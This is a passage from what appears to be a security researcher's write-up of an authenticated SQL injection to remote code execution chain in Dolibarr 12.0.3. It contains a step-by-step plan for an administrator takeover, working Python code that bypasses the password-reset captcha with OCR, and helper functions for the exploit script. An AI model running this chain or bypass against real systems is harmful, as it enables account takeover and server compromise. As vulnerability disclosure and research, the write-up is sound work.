




# C10011: Dolibarr 12.0.3, SQLi to RCE (authenticated)

In continuation of the two previous chapters, I will present here how it is possible to obtain code execution all summarized in a single python script.

The basic idea is to perform an admin take over using the first vulnerability from the previous chapter (c10010). Then combine this with modifying the route of a binary and you'd get code execution (c10001).

## How ?

When requesting a password reset, a temporary password (stored in column `pass_temp` of table `<PREFIX>_user`), is used to generate a token send by email to the account owner. Then the account owner can reset his password using the token received by email.

The attack we are going to carry out is the following:
1. Identification of the table's prefix.
2. Identification of the administrator's username.
3. Backup of the administrator's password.
4. Perform password reset for administrator. (OCR with [tesseract](https://github.com/tesseract-ocr/tesseract))
5. Extract the administrator's `pass_temp`.
6. Regeneration of a valid token.
7. Modification of administrator's password.
8. Modification of antivirus binary's path.
9. Trigger Remote code Execution.
10. Restore administrator's original password.

## Why ?

Any non-authenticated user can make a reset request as long as they know the account name of the user to be reset (which is a normal operation).





File: <span style="color:red">\<ROOT\>/user/passwordforgotten.php</span>
```php

...

// Action modif mot de passe
if ($action == 'buildnewpassword' && $username)
{
    $sessionkey = 'dol_antispam_value';
    $ok = (array_key_exists($sessionkey, $_SESSION) === true && (strtolower($_SESSION[$sessionkey]) == strtolower($_POST['code'])));

    // Verify code
    if (!$ok)
    {
        $message = '<div class="error">'.$langs->trans("ErrorBadValueForCode").'</div>';
    }
    else
    {
        $edituser = new User($db);
        $result = $edituser->fetch('', $username, '', 1);
        if ($result == 0 && preg_match('/@/', $username))
        {
        	$result = $edituser->fetch('', '', '', 1, -1, $username);
        }

        if ($result <= 0 && $edituser->error == 'USERNOTFOUND')
        {
            $message = '<div class="error">'.$langs->trans("ErrorLoginDoesNotExists", $username).'</div>';
            $username = '';
        }
        else
        {
            if (!$edituser->email)
            {
                $message = '<div class="error">'.$langs->trans("ErrorLoginHasNoEmail").'</div>';
            }
            else
            {
                $newpassword = $edituser->setPassword($user, '', 1);
                if ($newpassword < 0)
                {
                    // Failed
                    $message = '<div class="error">'.$langs->trans("ErrorFailedToChangePassword").'</div>';
                }
                else
                {
                    // Success
                    if ($edituser->send_password($user, $newpassword, 1) > 0)
                    {
                    	$message = '<div class="ok'.(empty($conf->global->MAIN_LOGIN_BACKGROUND) ? '' : ' backgroundsemitransparent').'">'.$langs->trans("PasswordChangeRequestSent", $edituser->login, dolObfuscateEmail($edituser->email)).'</div>';
                        $username = '';
                    }
                    else
                    {
                        $message .= '<div class="error">'.$edituser->error.'</div>';
                    }
                }
            }
        }
    }
}

...

```

### Antispam feature

As we may be able to see, to regenerate the password, the variable `$ok` must first be equal to 1. The problem is that the variable depends on `strtolower($_SESSION[$sessionkey])`.

Let's look at what this value corresponds to:

File: <span style="color:red">\<ROOT\>/core/antispamimage.php</span>
```php

...

/*
 * View
 */

$length = 5;
$letters = 'aAbBCDeEFgGhHJKLmMnNpPqQRsStTuVwWXYZz2345679';
$number = strlen($letters);
$string = '';
for ($i = 0; $i < $length; $i++)
{
	$string .= $letters[mt_rand(0, $number - 1)];
}
//print $string;


$sessionkey = 'dol_antispam_value';
$_SESSION[$sessionkey] = $string;

$img = imagecreate(80, 32);
if (empty($img))
{
	dol_print_error('', "Problem with GD creation");
	exit;
}

// Define mime type
top_httphead('image/png', 1);

$background_color = imagecolorallocate($img, 250, 250, 250);
$ecriture_color = imagecolorallocate($img, 0, 0, 0);
imagestring($img, 4, 24, 8, $string, $ecriture_color);
imagepng($img);

...

```

As we can see the `$_SESSION[$sessionkey]` variable corresponds to a code in the form of an image.




#### Defeating antispam feature using OCR


- The antispam code is being stored in our session as `$_SESSION[$sessionkey]`.
- We can change it as many times as we want by making a request to <span style="color:red">\<ROOT\>/core/antispamimage.php</span>


So we're going to defeat the security by using OCR with [tesseract](https://github.com/tesseract-ocr/tesseract).

Example:
```python
from PIL import Image
import pytesseract
import requests
import random
from io import BytesIO

DEBUG = 1
SESSION = requests.session()
ANTISPAM_PATH = "core/antispamimage.php"


def get_antispam_code(base_url):
    code = ""
    while len(code) != 5:
        r = SESSION.get(f"{base_url}{ANTISPAM_PATH}")
        temp_image = f"/tmp/{random.randint(0000,9999)}"
        with open(temp_image, "wb") as f:
            f.write(r.content)
        with open(temp_image, "rb") as f:
            code = pytesseract.image_to_string(
                Image.open(BytesIO(f.read()))).split("\n")[0]
        for char in code:
            if char not in "aAbBCDeEFgGhHJKLmMnNpPqQRsStTuVwWXYZz2345679":
                code = ""
                break
    if DEBUG:
        print(f"[*] Antispam code ({code}) stored at: {temp_image}")
    return code


get_antispam_code("http://127.0.0.1/projects/dolibarr/12.0.3/htdocs/")
```

Which gives us the following result

```
▶ python3 sqli_to_rce_12.0.3.py
[*] Antispam code (hsqNn) stored at: /tmp/6548
```

> Note: Since it is finally the function `strtolower()` that is applied to our code we could reduce the ensemble from `aAbBCDeEFgGhHJKLmMnNpPqQRsStTuVwWXYZz2345679` to `ABCDEFGHJKLMNPQRSTVWXYZ2345679` in order to reduce the number of queries induced by the OCR fails. But in order to best respect what the application does let's leave it as we did.

### Obtaining the name of the administrator

We now get to the heart of the matter, we are going to use the vulnerability discovered in the previous [chapter](https://therealcoiffeur.github.io/c10010) to first perform the following actions:

1. Identification of the table's prefix.
2. Identification of the administrator's username.
3. Backup of the administrator's password.

#### Authenticate and list privileges

Authentication:
```python
def authenticate(url, username, password):
    datas = {
        "actionlogin": "login",
        "loginfunction": "loginfunction",
        "username": username,
        "password": password
    }
    r = SESSION.post(f"{url}index.php", data=datas,
                     allow_redirects=False, verify=False)
    if r.status_code != 302:
        if DEBUG:
            print(f"[x] Authentication failed!")
        return 0
    if DEBUG:
        print(f"[*] Authenticated as: {username}")
    return 1
```

Check if the version is vulnerable:
```python
def get_version(url):
    r = SESSION.get(f"{url}index.php", verify=False)
    x = re.findall(
        r"Version Dolibarr [0-9]{1,2}.[0-9]{1,2}.[0-9]{1,2}", r.text)
    if x:
        version = x[0]
        if "12.0.3" in version:
            if DEBUG:
                print(f"[*] {version} (exploit should work)")
            return 1
    if DEBUG:
        print(f"[*] Version may not be vulnerable")
    return 0
```

Check if the privileges are correctly defined:
```python
def get_privileges(url):
    r = SESSION.get(f"{url}index.php", verify=False)
    x = re.findall(r"id=\d", r.text)
    if x:
        id = x[0]
        if DEBUG:
            print(f"[*] id found: {id}")
        r = SESSION.get(f"{url}user/perms.php?{id}", verify=False)
        soup = BeautifulSoup(r.text, 'html.parser')
        for img in soup.find_all("img"):
            if img.get("title") == "Actif":
                for td in img.parent.parent.find_all("td"):
                    privilege = "Consulter les commandes clients"
                    if privilege in td:
                        if DEBUG:
                            print(
                                f"[*] Privileges are correctly defined: {privilege}")
                        return 1
    if DEBUG:
        print(f"[*] Version may not be vulnerable")
    return 0
```

#### Identification of the table's prefix


